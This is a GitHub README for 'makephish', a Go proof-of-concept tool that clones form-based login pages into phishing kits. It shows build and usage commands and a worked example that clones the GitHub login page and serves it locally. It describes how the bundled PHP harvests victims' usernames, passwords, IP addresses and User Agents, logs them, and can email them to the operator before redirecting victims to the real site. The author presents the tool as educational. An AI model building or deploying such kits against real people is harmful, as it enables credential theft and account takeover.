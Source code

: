 # makephish

<p align="center">
  <img alt="makephish" src="https://github.com/andpalmier/makephish/blob/main/img/makephish.png?raw=true" />
  <p align="center">
    <a href="https://github.com/andpalmier/makephish/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/andpalmier/makephish"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/andpalmier/goransom?style=flat-square"></a>
    <a href="https://twitter.com/intent/follow?screen_name=andpalmier"><img src="https://img.shields.io/twitter/follow/andpalmier?style=social&logo=twitter" alt="follow on Twitter"></a>
  </p>
</p>


This is a proof of concept to automatically create phishing kits based on a specified URL, **please note that** `makephish` **will work exclusively on websites having a simple pages with** `<form>` **logins.**

The purpose of this project is purely educative: I wrote `makephish` to get familiar with Go, this also means that the code is poorly written and organized. The idea of the project is also to show how easy it is to clone a website and use it to create phishing pages.

## Usage

After downloading the repository, navigate into the directory and build the project:

```
$ make makephish
```

This will create a folder `build` with an executable called `makephish`. You can run the executable with the following flags:

- `-url`: URL of login page
- `-ua`: User Agent string, by defefault *"Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0"*
- `-php`: Path to the PHP file to be used, by default *"phish.php"*
- `-kits`: Path used to store the kits, by default *"./kits"*


### Example

```
$ ./build/makephish -url "https://github.com/login/"

           _           _   _     _
 _____  __| |_ ___ ___| |_|_|___| |_
|     ||. | '_| -_| . |   | |_ -|   |
|_|_|_|___|_|_|___|  _|_|_|_|___|_|_|
                  |_|


Navigating to https://github.com/login using the following User agent string: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Parameters found in the form of the given URL:
 - post action = /session
 - login attribute name = login
 - password attribute name = password
HTML file patched and saved in kits/github.com
PHP file saved in kits/github.com

[*] operation completed! kit created for https://github.com/login and saved in kits/github.com

$ tree kits/github.com
kits/github.com
├── assets
│   ├── behaviors-afe1a202.js
│   ├── chunk-frameworks-81b94425.js
│   ├── chunk-vendor-4d97ead9.js
│   ├── environment-f0adafbf.js
│   ├── frameworks-052cbe13e4b93c9b8358a7178885c1a0.css
│   ├── github-f19f9fd1ee83046f59cf1815d967f4d0.css
│   ├── sessions-45084fea.js
│   ├── settings-c44d66a8.js
│   ├── site-ca634d80a8a0df2203c34902267667dc.css
│   └── unsupported-a85b1284.js
├── index.html
└── phish.php

1 directory, 12 files

$ cd kits/github.com
$ php -S localhost:8000
[Sun Jan 10 12:10:54 2021] PHP 7.4.14 Development Server (http://localhost:8000) started
```

At this point, if you go to `localhost:8000` you should find something like this:

<p align="center">
  <img alt="fakeGH" src="https://github.com/andpalmier/makephish/blob/main/img/fakeGH.png?raw=true" />
</p>

If you enter some random credentials, you will note that you will be redirected to the real `github.com` login page:

<p align="center">
  <img alt="realGH" src="https://github.com/andpalmier/makephish/blob/main/img/realGH.png?raw=true" />
</p>

If you didn't modify the `phish.php` file, you can find the credentials you just enetered in `localhost:8000/log`:


<p align="center">
  <img alt="logs" src="https://github.com/andpalmier/makephish/blob/main/img/logs.png?raw=true" />
</p>

### PHP capabilities

A simple PHP file is provided in this repo, but you can easily adjust it to your needs. By default, the file will save username, password, User Agent string and IP of the victim in a log file, you can disable this option by removing the content of the variable `log`. You can also specify an email address to send these details via email everytime a new victim enters the credentials.

```
$exfilemail = ""; // -> enter an email address to send the details via email
$logpath = "log"; // -> make this variable empty to disable logging feature
```
